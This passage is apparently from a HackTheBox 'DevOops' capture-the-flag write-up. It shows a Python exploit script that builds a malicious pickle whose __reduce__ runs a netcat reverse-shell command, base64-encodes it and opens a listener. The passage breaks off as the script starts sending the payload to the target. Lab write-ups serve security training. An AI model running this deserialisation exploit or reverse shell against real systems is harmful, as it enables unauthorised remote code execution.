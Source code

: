 We generate the payload

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2006:38:27.png)

And now we try to send to the server to see if it reach us. In this case I'll use BurpSuite to better debug the request

And we see that it works

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2006:40:55.png)

We will get a reverse shell now and automate it

And here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2007:06:33.png)

pick_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Exploit to auto shell in python pickles from DevOops - HackTheBox

import argparse
import requests
import sys
import pickle
import os
import base64
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# Create the Payload in base64
def payload(lhost,lport):
    global COMMAND
    COMMAND = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f" %(lhost,lport)
    class PAYLOAD():
        def __reduce__(self):
            return os.system, ("{}".format(COMMAND),)
    global payload
    payload = base64.b64encode(pickle.dumps(PAYLOAD(), protocol=0)).decode("utf-8")
    payload = str(payload)

# Trigger the reverse shell
def triggerReverse(rhost,payload):
    url = "http://%s:5000/newpost" %rhost
    data = payload
```